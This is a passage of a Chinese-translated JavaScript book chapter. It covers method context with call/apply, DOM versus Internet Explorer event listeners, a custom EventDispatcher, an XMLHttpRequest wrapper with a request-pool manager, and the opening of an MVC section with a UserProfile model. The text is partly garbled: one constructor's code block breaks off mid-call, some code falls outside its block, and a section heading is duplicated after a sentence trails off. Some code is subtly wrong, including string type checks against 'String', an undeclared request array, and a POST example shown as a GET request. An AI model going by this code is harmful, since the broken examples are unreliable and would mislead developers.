### 3.1 对象与事件触发

结合面向对象设计和轻量级事件处理可以大有作为，尽管这种耦合常常会混淆那些不习惯 JavaScript 上下文的人，尤其是当从外部对象调用对象方法时。这个问题在过程式 JavaScript 中并不常见，因为大多数函数都是在 window 对象的上下文中声明和调用的。

通过使用 `call` 和 `apply`，对象方法调用将在必要的上下文中运行。这两个函数都属于 `Function` 对象的原型，因此任何 `function` 声明都自动支持它们。每个方法都接受一个参数，该参数是持有函数调用上下文的对象，每个方法还分别接受传递给该调用的参数作为附加参数或参数数组。

下面的示例展示了一个 `Man` 类，当它的 `wakeUp` 方法作为 `click` 或 `submit` 等事件的监听器被调用时，会呼叫它的男仆：

```
function Man() { }
Man.prototype = {
    valet : false,
    wakeUp : function(event) {
        alert(this.valet + "? Some breakfast, please.");
    }
};
var wooster = new Man();
wooster.valet = "Jeeves";
```

以如下方式将 `wooster` 的 `wakeUp` 方法添加为事件监听器，将导致显示 "undefined? Some breakfast, please."。这是因为，即使事件看似调用了 `wooster.wakeUp`，但它实际上是在生成事件的元素上下文中调用了 `wooster` 对 `wakeUp` 方法的引用。因此，`wakeUp` 内部的 `this.valet` 引用不存在，因为按钮没有名为 `valet` 的成员变量：

```
var button = document.getElementById("morning");
button.addEventListener(
    "click",
    wooster.wakeUp,
    false
);
```

通过在监听器中使用 `apply`，如下一个示例所示，作用域将更改为 `wooster` 的作用域，从而确保 `Man` 可以呼叫他的男仆：

```
var button = document.getElementById("morning");
button.addEventListener(
    "click",
    function() {
        Man.prototype.wakeUp.apply(wooster, arguments);
    },
    false
);
```

在处理客户端应用中的事件和事件处理时，架构通常支持两种类型的事件：原生对象事件和应用程序自身 JavaScript 对象中的事件。

#### 3.1.1 原生对象事件处理

W3C 描述的 DOM 提供了一个本质上中立的接口，用于更新和读取给定文档的结构、呈现和内容。这意味着只要所有客户端遵循标准，开发者就可以编写一次客户端应用，并在每次运行时都以完全相同的方式呈现和执行，无论底层的渲染引擎是什么。

这种统一 API 的可用性意味着，如果所有客户端都遵循标准，你可以编写 JavaScript 来访问和操作应用中的 DOM 节点，并且该 JavaScript 可以在基于 Mozilla 的浏览器、Internet Explorer、Opera、Konqueror、Safari（基于 Konqueror 的 KHTML 引擎）等的渲染引擎中完美运行。不幸的是，世界并非完美统一，因此并非所有浏览器都完全遵循标准。

DOM Level 2 文档对象模型事件技术报告描述了 DOM 的事件/监听器接口。它首先为 EventTarget 提供了三个基本方法：

```
addEventListener(
    String type,
    EventListener listener,
    Boolean useCapture
)
removeEventListener(
    String type,
    EventListener listener,
    Boolean useCapture
)
dispatchEvent(
    Event event
)
```

这些方法强制 DOM 节点遵循观察者模式，这意味着你有能力将对象引用传递给另一个对象，以便一个对象可以在发生某事时通知任意数量的对象。Web 应用客户端代码中与 DOM 交互的部分广泛使用这些方法来处理用户与 UI 的交互。

##### 3.1.1.1 Internet Explorer

在将事件绑定到 DOM 时，Internet Explorer 不遵循 DOM 标准。它遵循自己的事件监听接口定义；以下方法对应于 W3C 的 `addEventListener` 和 `removeEventListener` 方法：

> 关于 DOM 事件处理，DOM 规范详细描述了 `useCapture` 标志。由于该标志与本章主题关系不大，此处不予解释。

```
attachEvent(
    String type,
    EventListener listener
)
detachEvent(
    String type,
    EventListener listener
)
```

这种对标准的偏离导致在事件处理代码中使用这些特定方法时需要冗余调用。因为在应用程序各处编写重复代码会造成维护噩梦，你可能希望考虑将这些调用抽象到一个地方。也许有一天，某个版本的 Internet Explorer 甚至会支持标准，使得 `attachEvent` 和 `detachEvent` 仅在支持旧版浏览器时才需要；然而，目前没有任何版本的 Internet Explorer 遵循该标准。在微软发布该版本并广泛使用之前，开发者必须满足于仅仅抽象这些方法的使用，以便当需要更改时，只需在一个地方进行。

Internet Explorer 中调用监听器的处理方式也偏离了标准和在其他浏览器中的实现。本章下一节将简要回顾 JavaScript 的 `this` 实现及其与 Java 或 PHP 等其他语言对象模型的区别。当其他浏览器调用监听器时，它们倾向于遵循标准，因此 `this` 指向触发事件的元素。当 Internet Explorer 调用监听器时，它通过引用调用函数并改变 `this` 的含义，以至于你无法分辨最初是哪个元素触发了事件。

#### 3.1.2 JavaScript 对象

得益于 JavaScript 的结构，如果你了解数组，你就已经了解了 JavaScript 对象，因为

```
var myobject = new Object();
myobject.someproperty = somevalue;
```

和

```
var myobject = new Object();
myobject['someproperty'] = somevalue;
```

的工作方式相同。JavaScript 的灵活性提供了多种定义对象的方式，甚至可以使用对象初始化器，使得以下示例同样有效：

```
var myobject = {someproperty:myvalue};
```

在 JavaScript 中，请记住，尤其是在处理事件回调时，函数或方法拥有调用者作为其所有者，而不是对象本身。考虑以下示例，其中你构造了一个对象并分配了一个事件监听器：

```
function Sample(msg) {
    this.message = msg;
}
Sample.prototype = new Object;
Sample.prototype.message = msg;
Sample.prototype.itClicked = function() {
    alert(this.message);
}
var a = new Sample('I heard a click!');
document.addEventListener('click', a.itClicked, false);
```

实际上，当你点击页面时，这段代码会在警报对话框中显示一个未定义的值，因为 `this` 将指向文档而不是变量 `a`。由于 `document.message` 不存在，当脚本稍后尝试使用其值时，你会得到一个错误。这需要一些时间来适应，并需要重新思考如何构建你的 JavaScript 架构，但这种模型实际上支持对象继承，如以下代码所示（假设你已经定义了前面的示例）：

```
function ExtendedSample(msg, times) {
    // Create a reference to Sample's constructor
    this.parent = Sample;
    // Call constructor in the context of ExtendedSample
    this.parent(msg);
```

this.repeat = times;
}
// 使用 Sample 的原型来扩展它
ExtendedSample.prototype = new Sample;
// 声明对象变量以便在方法中引用
ExtendedSample.prototype.message = undefined;
ExtendedSample.prototype.times = 1;
// 覆盖之前对 itClicked 的声明
ExtendedSample.prototype.itClicked = function() {
    for (var i = 0; i < this.repeat; i++) {
        alert(this.message);
    }
}

虽然这个例子创建了一个对用户来说极其烦人的类，但它阐释了调用 `this.parent(msg);` 实际上是如何以 `ExtendedSample` 作为所有者来运行 `Sample` 的对象定义的。这为 `ExtendedSample` 定义了 `message` 和 `itClicked`，然后它用新的函数定义覆盖了 `itClicked`。顺便说一句，`this.parent` 并不使用 JavaScript 中的任何关键字；它仅仅依赖于函数引用在调用者/被调用者处理中的工作方式。你可以用任何你喜欢的方式声明它，但在子对象的声明中使用父对象的变量名会使其目的更加清晰。

通过使用这样的对象，你可以实现一个简单的事件监听器/分发器系统。由于 DOM 标准已经定义了 `addEventListener`、`removeEventListener` 和 `dispatchEvent` 方法，为什么不通过效仿来简化你和其他开发者的工作呢？

##### 3.1.2.1 EventDispatcher

以下示例演示了一个简单的自定义事件、一个事件分发器及其用法。`EventDispatcher` 对象起初没有任何事件，因为它被用作抽象类，所以它只在被扩展时使用，而永远不会被直接实例化。此外，虽然这个示例包含大量代码来显示一个警报，但请更多地关注通过使用事件实现的内容显示与内容检索的解耦：

```javascript
function CustomEvent() { }
CustomEvent.prototype = {
    type: 'custom'
}

// 自定义的 EventTarget 等价物
function EventDispatcher() { }
EventDispatcher.prototype = {
    // 一个对象字面量，按类型存储监听器数组
    events : {},

    // 如果支持该类型，则添加监听器（capture 被忽略）
    addEventListener : function(type, listener, capture) {
        if (this.events[type]) {
            this.events[type].push(listener);
        }
    },

    // 如果支持该类型，则移除监听器（capture 被忽略）
    removeEventListener : function(type, listener, capture) {
        if (this.events[type] == undefined) {
            return;
        }
        var index = this.events[type].indexOf(listener);
        if (this.events[type][index]) {
            this.events[type].splice(index, 1);
        }
    },

    // 遍历所有事件监听器，
    // 将事件传递给回调函数
    dispatchEvent : function(type, event) {
        if (this.events[type]) {
            for (var i in this.events[type]) {
                if (typeof this.events[type][i] == 'function') {
                    this.events[type][i](event);
                    // 接受一个包含上下文对象和要调用的函数的数组
                } else if (typeof this.events[type][i] == 'object') {
                    this.events[type][i][1].call(
                        this.events[type][i][0], event
                    );
                }
            }
        }
    }
}

/**
 * 用特定的类型和一个额外的变量来扩展 CustomEvent 类，
 * 以便随事件一起发送名称。
 */
function NameEnteredEvent(name) {
    this.type = 'pick';
    this.name = name;
}
NameEnteredEvent.prototype = new CustomEvent;

/**
 * 扩展 EventDispatcher，创建一个 'pick' 事件。
 */
function AliasPicker() {
    this.events.pick = new Array();
}
AliasPicker.prototype = new EventDispatcher;

/**
 * Watcher 在这种情况下，只是定义了一个回调
 */
function Watcher() {
    this.namePicked = function(e) {
        alert(e.name);
    }
}

var picker = new AliasPicker();
var w = new Watcher();

picker.addEventListener('pick', w.namePicked, false);
picker.dispatchEvent(new NameEnteredEvent('Bob'));
```

将单个 `CustomEvent` 对象传递给相应监听器的本质意味着它可以传递任意多的信息，而无需改变事件处理方式的任何方面。只需扩展基础 `CustomEvent` 类，设置你的类型，并创建监听器需要的任何成员变量。

通过扩展 `EventDispatcher`，对象可以拥有更松散的耦合关系，并且更容易检测到需要在整个 UI 中发生的更新。例如，如果你有一个页面在顶部显示用户名，并且用户更新了他们的名字，负责更新用户名显示的对象只需要将自己作为监听器添加到管理用户输入的对象；该对象不需要知道负责更新用户名的任何内部细节或特定于对象的方法。

##### 3.1.2.2 XMLHttpRequest，抽象化

回调处理的工作方式与你对 DOM 本身任何事件分发所预期的那样。监听器仍然会收到 Event 实例——尽管是更简单的形式——以包含有关相关事件信息的通用对象的形式传递。这种做法简化了回调的逻辑，因为它们总是知道传回数据的格式，即使它们收到的是预期事件的子类。

事件的分发可以走两条路径之一，以简化作用域的处理。因为在 JavaScript 中，`this` 求值为方法调用的当前上下文，而不是拥有该方法调用的对象，所以监听器除了方法之外，还可以指定一个对象用作方法调用的作用域。这也使得事件生成的编码更简单，因为一个简单的 EventDispatcher 声明就可以处理解耦，从而构建一个灵活、易于开发的应用程序。

XMLHttpRequest 作为允许 Ajax 作为纯 JavaScript 客户端/服务器通信层工作的核心而存在。其他方法，如使用 iframe 或图像，确实存在，但这些方法依赖于隐藏的标记，因此，它们只是模拟 XMLHttpRequest 原生支持的功能的变通方法。

乍一看，当与面向对象的架构一起使用 XMLHttpRequest 对象时，似乎会使事情变得更复杂，因为如果你在对象中设置 `onreadystatechange = this.someMethod;`，你将只会得到“function-undefined”错误。虽然这确实让不少开发者感到烦恼，但它实际上只是迫使你创建一个 XMLHttpRequest 实例池。这对应用程序相当有利，因为代码随后能够同时发送多个请求（永远不要忘记 Ajax 这个缩写中的异步部分）并促进抽象化。

> 虽然 XMLHttpRequest 的抽象化和池化使得应用程序开发和异步行为变得容易得多，但对单个服务器同时只能发起两个 HTTP 请求。这源于 HTTP 规范本身，包括所有类型的 HTTP 请求，如样式表、图像以及通过 XMLHttpRequest 对象发出的请求。

本着这种抽象化的精神，以及不必每次都重写相同的 XMLHttpRequest 函数，从现在开始的示例将利用以下代码中定义的对象（穿插描述）；这些示例为原生 XMLHttpRequest 对象定义了一个包装器对象和一个用于创建、保留和删除它们的管理器：

```javascript
// 一个 CustomEvent，用于在加载时传递 AjaxRequest
function AjaxEvent(request) {
    this.request = request;
}
AjaxEvent.prototype = new CustomEvent;
AjaxEvent.prototype.type = 'ajax';
AjaxEvent.prototype.request = null;
```

下面 `AjaxRequest` 类的构造函数接受一个 ID 参数，这乍一看可能有点不寻常。它接受这个参数是因为这个类与本节末尾定义的 `AjaxRequestManager` 类协同工作；应用程序代码使用 `AjaxRequestManager` 来请求 `AjaxRequest` 类的实例。`AjaxRequestManager` 为每个实例分配一个标识符，然后将其放入当前活动的 `AjaxRequest` 实例池中；该池按顺序保存它们，以便应用程序可以随时指示 `AjaxRequestManager` 中止请求并清理留下的对象。如果不清理已使用的对象，客户端应用程序将存在内存泄漏，因为对象将一直留在内存中，直到用户离开页面。

在构造函数的末尾，代码将 `XMLHttpRequest` 实例的 `onreadystatechange` 事件设置为一个使用 `apply` 和特殊变量 `dis` 的函数。`dis` 变量持有对 `AjaxRequest` 实例的引用。然后使用 `apply` 函数在 `dis` 上调用 `AjaxRequest` 的 `stateChanged` 方法，就像本章前面的示例一样。通过使用对 `this` 的命名引用而不是直接使用 `this`，来自事件的函数调用的作用域将停留在对象本身需要的地方：

```javascript
// 由 AjaxRequestManager 实例化，而不是直接实例化
function AjaxRequest(id) {
    this.id = id;

    // 如果浏览器遵循标准
    if (window.XMLHttpRequest) {
        this.xhr = new XMLHttpRequest();
        // ...否则，如果是 Internet Explorer < 7
    } else if (window.ActiveXObject) {
        this.xhr = new ActiveXObject('Microsoft.XMLHTTP');
    }
    // this.xhr.onreadystatechange 的回调
    var dis = this;
    this.xhr.onreadystatechange = function() {
        AjaxRequest.prototype.stateChanged.apply(
```

将 `AjaxRequest` 类的原型赋值给 `EventDispatcher`，就把 `AjaxRequest` 定义为一个继承 `EventDispatcher` 类的类。这样一来，它就能支持客户端应用中广泛使用的事件驱动编程实践，而无需包含任何定义这些行为的代码。该对象只需定义它有哪些可用事件（本例中为 `abort`、`fail`、`load`、`open` 和 `send`），然后在需要触发事件时，调用 `EventDispatcher` 的 `dispatchEvent` 方法并传入一个 `AjaxEvent` 实例。`EventDispatcher` 的类变量和方法随后会处理所有围绕管理监听器和事件本身的逻辑：

```javascript
AjaxRequest.prototype = new EventDispatcher;
// 事件分发
AjaxRequest.prototype.events = {
    abort:[],
    fail:[],
    load:[],
    open:[],
    send:[]
};

// 用于模拟 this 和 this.xhr
AjaxRequest.prototype.id = null;
AjaxRequest.prototype.xhr = null;
AjaxRequest.prototype.aborted = false;

// 存储 GET 请求的变量/值对
AjaxRequest.prototype.get = {};

// 存储 POST 请求的变量/值对
AjaxRequest.prototype.post = {};

// 决定是否发送 this.post
AjaxRequest.prototype.method = 'POST';
```

以下 `stateChanged` 的实现定义非常简单，仅为说明如何处理 `XMLHttpRequest` 对象的 `onreadystatechange` 事件返回的情况。该定义支持在 `XMLHttpRequest` 实例的 `status` 返回 200（意味着请求以 200 OK 状态返回，而非 404 Not Found 或其他状态）时，触发 `AjaxRequest` 类的 `load` 事件。在第 5 章“性能优化”中，此方法将有一个更详尽的定义，会利用其他潜在的返回状态：

```javascript
// this.xhr.onreadystatechange 的回调函数
AjaxRequest.prototype.stateChanged = function() {
    // 仅在返回完成时继续
    if (this.xhr.readyState == 4) {
        try {
            // 仅在状态为 OK 时继续
            if (this.xhr.status == 200) {
                var e = new AjaxEvent(this);
                this.dispatchEvent('load', e);
            }
        } catch (ex) {
            var e = new AjaxEvent(this);
            this.dispatchEvent('fail', e);
        }
    }
}
```

`AjaxRequest` 类的 `abort` 实现主要作为其 `XMLHttpRequest` 实例的 `abort` 方法的别名。唯一的例外是它还提供了一个事件，以便所有监听 `AjaxRequest` 实例的 `abort` 事件的监听器都能收到通知：有东西（可能是错误或对 `abort` 方法的调用）中止了请求：

```javascript
// 中止调用的简单别名
AjaxRequest.prototype.abort = function() {
    this.aborted = true;
    var event = new AjaxEvent(this);
    event.returned = this.xhr.abort();
    this.dispatchEvent('abort', event);
    return event.returned;
}
```

`open` 方法处理了多项任务，若应用程序没有 `XMLHttpRequest` 对象的这种抽象，其代码就需要重复这些任务。因为 `XMLHttpRequest` 对象要求 GET 参数的内容被编码，然后连接成一个字符串并附加到请求 URL 上，所以该方法负责处理这种格式准备工作。现在需要 Ajax 驱动行为的代码，无需再包含专门用于准备请求数据的代码。`open` 方法还支持可选参数，用于要求它使用同步请求和/或服务器可能通过 HTTP 认证要求的凭据：

```javascript
// this.xhr.open 的别名，它存储方法以便决定
// 是否需要将 this.post 连接成 URL 编码的字符串形式。
// 注意：它只接受基础 URL 作为其 url，因为它会编码
// 并将 this.get 连接到 GET 参数中。
AjaxRequest.prototype.open = function(method, url) {
    this.method = method.toUpperCase();
    var real_get = this.urlEncodeObject(this.get);
    url += "?" + real_get;
    var async = (typeof arguments[2] != "boolean") ? true : arguments[2];
    var user = (typeof arguments[2] != "String") ? null : arguments[3];
    var pass = (typeof arguments[2] != "String") ? null : arguments[4];
    var event = new AjaxEvent(this);
    event.returned = this.xhr.open(
        this.method,
        url,
        async,
        user,
        pass
    );
    this.dispatchEvent("open", event);
    return event.returned;
}
```

与之前定义的 `open` 方法类似，`send` 方法也确保发送到服务器的数据被正确编码，但仅当通过 POST 而不是默认的 GET 方法发送请求时才如此。此外，通过 POST 发送数据时，`send` 方法将请求头 `Content-Type` 设置为 `application/x-www-form-urlencoded`，因为该对象以这种格式发送数据，而服务器可能期望也可能不期望该 `Content-Type`：

```javascript
// this.xhr.send 的简单别名，根据指定的请求方法
// 调整 this.post。
AjaxRequest.prototype.send = function() {
    if (this.aborted) {
        return false;
    }
    var real_post = '';
    var event = new AjaxEvent(this);
    if (this.method == 'POST') {
        this.xhr.setRequestHeader(
            'Content-Type',
            'application/x-www-form-urlencoded'
        );
        real_post = this.urlEncodeObject(this.post);
        event.returned = this.xhr.send(real_post);
    } else {
        event.returned = this.xhr.send();
    }
    this.dispatchEvent('send', event);
    return event.returned;
}
```

`AjaxRequest` 类的 **urlEncodeObject** 方法将原生 JavaScript 对象编码为发送到服务器所需的 URL 编码数据字符串的过程进行了抽象：

```javascript
// 从对象到 URL 编码值的非递归序列化
AjaxRequest.prototype.urlEncodeObject = function(obj) {
    var first = true;
    var string = '';
    for (i in obj) {
        var temp_obj = obj[i];
        // 字符串字面量无需 toString()。
        // 实际上，这样做会损坏值。
        if (typeof temp_obj != 'string') {
            temp_obj = temp_obj.toString();
        }
        temp_key = encodeURIComponent(i);
        temp_obj = encodeURIComponent(temp_obj);
        if (first) {
            first = false;
            string += temp_key + '=' + temp_obj;
        } else {
            string += '&' + temp_key + '=' + temp_obj;
        }
    }
    return string;
}
```

`AjaxRequestManager` 类通过管理请求池实现了第二级抽象。通过这种方式，应用程序只需请求一个实例（就像工厂模式通常做的那样，该实例后续可能提供不同类型的 `AjaxRequest` 对象），而无需编写特定代码来跟踪这些实例；唯一需要编写的、特定于对象的代码，就是已经为与这些类交互而必需的事件监听：

```javascript
// 管理 AjaxRequest 实例池
function AjaxRequestManager() { }
AjaxRequestManager.prototype = {
    // AjaxRequest 实例数组
    requests : [],
    // 要自动添加到新请求的事件监听器
    events : AjaxRequest.prototype.events,

    // 用于实例化 AjaxRequest 的工厂类型函数
    createAjaxRequest : function() {
        var new_id = ++requests.length;
        try {
            requests[new_id] = new AjaxRequest(new_id);
            requests[new_id].events = this.events;
            return requests[new_id];
        } catch (e) {
            alert(e);
            // 如有必要，清理无效引用
            if (requests[new_id]) {
                requests.pop();
            }
            return false;
        }
    },

    // 垃圾回收
    eliminateAjaxRequest : function(id) {
        if (!requests[id]) {
            return false;
        }
        // 在有活动时调用中止
        requests[id].abort();
        // 首先，删除引用
    }
};
```


##### 3.1.2.3 使用AjaxRequestManager

你可以通过一种方式来实现并行池，即让`AjaxRequestManager`不必须作为单例存在，但这对于本书的意图来说已经足够了。此外，一个功能更完善的管理器会支持通过设置并发请求数上限来实现节流。通过创建多个请求池，你可以根据需要发送和接收的数据量，或者根据服务器或客户端处理请求所需的时间，来对不同类型的请求进行节流控制。

仅靠注释阅读起来相当困难，因此下面的示例展示了如何使用`AjaxRequestManager`及由此产生的`AjaxRequest`来创建和执行一个简单请求：

```javascript
// 定义处理响应的回调函数
function presentAnswer(event) {
    // 本例将直接输出响应文本
    var answer = event.request.responseText;
    alert(answer);
}

function askQuestion(query) {
    // 实例化一个请求
    var request = request_manager.createAjaxRequest();
    // 这等同于一个GET请求 "ask.php?question=" + query
    request.get.question = query;
    request.addEventListener('load', presentAnswer);
    request.open('GET', 'ask.php');
    request.send();
}
askQuestion('What if my beard were made of green spinach?');
```

`askQuestion`声明向`AjaxRequestManager`实例请求一个`AjaxRequest`实例，并从池中的下一个位置获取一个。然后，它为通过GET方式发送的变量赋值，该变量将自动从JavaScript变量字符串赋值编码为：

```javascript
question = "What if my beard were made of green spinach?";
```

变成以下URL编码的字符串，可以安全地在请求中发送：

```
question=What%20if%20my%20beard%20were%20made%20of%20green%20spinach%3F
```

接着，请求实例被分配了一个事件监听器，其形式是对上面声明的`presentAnswer`函数的引用。这段代码没有将`presentAnswer`分配给`XMLHttpRequest.prototype.onreadystatechange`事件，因为那个事件会在浏览器对`XMLHttpRequest.prototype.readyState`做出更改的那一刻就开始返回。相反，`AjaxRequestManager`使用其从`EventDispatcher`父类继承的功能，并在拥有一个完整、成功的响应可以传递时，触发一个自定义事件，传递一个`AjaxEvent`实例。

然后，请求实例通过使用`GET`和传入的位置来打开到服务器的连接。刚刚设置的变量`question`的编码形式将被附加到位置之后，形成一个完整的HTTP请求（为清晰起见，省略了浏览器特定的`User-Agent`、`Accept`等头信息），如下所示：

```
GET /ask.php?question=What%20if%20my%20beard%20were%20made%20of%20green%20spinach%3F HTTP/1.1
```

从`AjaxRequest`的声明来看，你只需将变量赋值给对象的post成员变量而不是get成员变量，就可以非常容易地将question变量改为通过`POST`传递。然后，请求将以`POST`方式打开，如图3.1所示。

```javascript
function askQuestion(query) {
    // 实例化一个请求
    var request = request_manager.createAjaxRequest();
    // 这等同于一个POST请求 "question=" + query
    request.post.question = query;
    request.addEventListener('load', presentAnswer);
    request.open('POST', 'ask.php');
    request.send();
}
```

这个函数不再像之前那样将所有内容都放在`GET`语句中发送，而是发送一个如下所示的HTTP请求：



图3.1 `askQuestion`调用背后过程的数据流图。

```
GET /ask.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

question=What%20if%20my%20beard%20were%20made%20of%20green%20spinach%3F
```

因为所有与`XMLHttpRequest`对象的交互，就创建和发送请求而言，都被抽象化了，所以该对象提供了一个更简单的接口来发送和管理`XMLHttpRequest`实例。因此，简化的Ajax请求调用使得代码更易于阅读，开发速度更快。此外，由于JavaScript处理原生事件分发的方式，请求池默认就被包含在内。所有这些优点结合起来，使得设计模式和应用程序架构的实现变得更加容易。

### 3.2 模型-视图-控制器设计模式

设计模式描述了一种特定的、常见的克服障碍或实现目标的方法。Web开发者在所有可用的众多设计模式中，有意识地使用最多的是模型-视图-控制器（MVC）模式。（大多数人起初甚至不知道自己使用的是单例模式和工厂模式。）由于设计模式的本质，大多数开发者在阅读设计模式时，会立刻认出他们已经知道的实现。

通过使用设计模式，应用程序架构师和开发者可以轻松地解决已经解决过的问题，同时坚持使用其他人容易理解的方法论。例如，告诉别人某个特定对话框的使用遵循单例模式很容易。但要描述这个对话框在整个应用程序中如何只有一个实例，如何被共享和重用则很难。

本章甚至不会涵盖客户端Web开发中设计模式使用可能性的一半。《Ajax设计模式》（Mahemoff, 2006）这本书涵盖了更多关于设计模式概念以及可用模式的内容，而你正在阅读的这本书则更侧重于方法和架构，而这些又反过来使用了各种模式。

尽管设计模式非常有用，但它们也可能导致开发者过度工程化。这可能会通过实现一个由多个抽象类组成的、结构精美的应用程序架构来浪费资源，而这些工作本可以用几个简单的一次性函数来完成。最终结果是，你可能会得到一个运行更慢的应用程序和更多需要维护的代码。然而，当作为开发者的工具，而非一套强制性规则来使用时，设计模式可以使应用程序架构的设计和实现更加顺畅、更易于理解和更易于维护。

MVC模式描述了一种抽象数据存储和维护（模型）、数据呈现和接口（视图）以及模型和视图之间的应用程序逻辑和数据转换（控制器）的方法。在Web应用程序中，如图3.2所示的MVC模式通常在服务端脚本中实现，以便将数据库交互与模板引擎分离，而决策制定和事件生成则控制着两者之间的一切。

关于Ajax和客户端应用程序，MVC模式的工作方式大体相同。



图3.2 客户端应用程序环境中的MVC模式。

# 3.2.1 模型

当纯粹在客户端开发中使用MVC模式时，模型仍然充当数据的抽象逻辑管理者。在客户端实现模型与仅在服务端数据库层之上实现模型的区别在于，你需要决定有多少逻辑希望保留在客户端（即：减少服务器的工作量），有多少希望保留在服务器上（即：减少浏览器的工作量）。

将大部分数据管理逻辑放在哪里的决定，很大程度上取决于手头的数据。你不希望用户的浏览器...


#### 3.2.1 模型（Model）

无论发生什么，模型只遵循控制器的指令，根据控制器的要求管理和提供数据。模型从不与视图交互，而且据它所知，视图可能根本不存在，也可能存在多个视图。它只需要尽可能高效地处理数据的存储和检索，并提供尽可能简单的编程接口。

下面这个简单的例子展示了MVC中一个数据对象（即模型）如何管理用户资料，对应于目前编写的界面标记：

```javascript
function UserProfile() { }
UserProfile.prototype = new EventDispatcher;

// 覆盖 EventDispatcher 属性
UserProfile.prototype.events = {
    "load" : new Array(),
    "save" : new Array(),
    "delete" : new Array()
};
// 获取/设置数据的URL
UserProfile.prototype.url = 'profile/';

// 为实际资料创建字段
UserProfile.prototype.fields = {
    "id" : null,
    "username" : "",
    "alias" : "",
    "email" : "",
    "color" : ""
};

// 通过主键加载用户
UserProfile.prototype.load = function() {
    var req = request_manager.createAjaxRequest();
    req.get.id = this.fields.id;
    req.addEventListener('load', this.loadValues);
    req.open('GET', this.url);
    req.send();
}
```

```javascript
/**
 * 假设响应格式如下：
<?xml version="1.0"?>
<user>
    <id>23</id>
    <username>shawn</username>
    <alias>Shawn Lauriat</alias>
    <email>shawn@frozen-o.com</email>
    <color>black</color>
</user>
 */
UserProfile.prototype.loadValues = function(event) {
    var xml = event.request.responseXML;
    // <user> 节点
    var user = xml.getElementsByTagName('user').item(0);
    // 如果没有 user 节点，则立即停止
    if (!user) {
        return false;
    }
    for (var i in this.fields) {
        if (input = user.getElementsByTagName(i)) {
            this.fields[i] = input.item(0).firstChild.nodeValue;
        }
    }
    // 只需要发送一个快速的 loaded 事件
    var loaded_event = new CustomEvent();
    // 在事件中传递 UserProfile ID
    loaded_event.userid = this.fields.id;
    this.dispatchEvent('load', loaded_event);
    return true;
}
```

```javascript
// 保存当前用户
UserProfile.prototype.save = function() {
    var req = request_manager.createAjaxRequest();
    // 需要告诉服务器要保存哪个用户
    req.get.id = this.fields.id;
    for (var i in this.fields) {
        req.post[i] = this.fields[i];
    }
    // 假设服务器端代码执行操作
    req.post.action = 'save';
    req.xhr.addEventListener(
            'load',
            [this, UserProfile.prototype.saved]
        );
        req.open('POST', this.url);
        req.send();
    }

    // 分发保存事件
    UserProfile.prototype.saved = function(event) {
        // 只需要发送一个快速的 loaded 事件
        var saved_event = new CustomEvent();
        // 在事件中传递 UserProfile ID
        saved_event.userid = this.fields.id;
        this.dispatchEvent('save', saved_event);
    }

    // 删除当前用户。注意我们不能
    // 使用 this.delete，因为 IE 无法区分
    // JavaScript 运算符
    // 和对象方法
    UserProfile.prototype.eliminate = function() {
        var req = request_manager.createAjaxRequest();
        // 需要告诉服务器要删除哪个用户
        req.get.id = this.fields.id;
        // 假设服务器端代码执行操作
        req.post.action = 'delete';
        req.xhr.addEventListener(
            'load',
            [this, UserProfile.prototype.eliminated]
        );
        req.open('POST', this.url);
        req.send();
    }

    // 分发删除事件
    UserProfile.prototype.eliminated = function(event) {
        // 只需要发送一个快速的 loaded 事件
        var deleted_event = new CustomEvent();
        // 在事件中传递 UserProfile ID
        deleted_event.userid = this.fields.id;
        this.dispatchEvent('delete', deleted_event);
    }
```

`UserProfile`对象由三个核心元素构成其结构：

1.  **成员变量**——它们的作用仅仅是存储对象特定实例的状态，并为其他对象提供一个获取和设置值的接口。
2.  **对象操作接口**——三个方法——`load`、`save`和`eliminate`——允许其他JavaScript对象与对象的数据存储进行交互并影响存储，而无需了解存储的工作原理。就像在PHP等其他语言中使用数据库对象一样，这里的对象只知道如何操作数据本身的存储。
3.  **事件分发**——通过扩展`EventDispatcher`，数据对象的实用性得以完整发挥，它允许使用该对象的JavaScript了解对象的状态。因为具有Ajax特性的应用程序在任何给定时刻本质上都可能具有多个异步线程，用户不应被迫在做出更多更改或与用户界面的另一部分交互之前，等待数据对象完成保存。

#### 3.2.2 视图（View）

将应用程序逻辑和数据存储从表示层中抽象出来，在客户端应用程序开发中仍然扮演着重要角色，尽管它经常被忽视。即使是在应用程序与实际DOM之间设计一个简单的层，也能节省相当多的开发时间。在设计时考虑到视图，客户端应用程序可以使用现有的DOM结构作为它与之交互和创建的元素的模板集合。这使得实际的页面结构和设计脱离了应用程序逻辑，无需实现一个次级的纯JavaScript模板引擎。

通过实现视图层，应用程序可以将所有与直接用户交互相关的逻辑限制起来，就像服务器端应用程序开发的模板层一样。因此，视图的职责可以分解为两个主要部分：

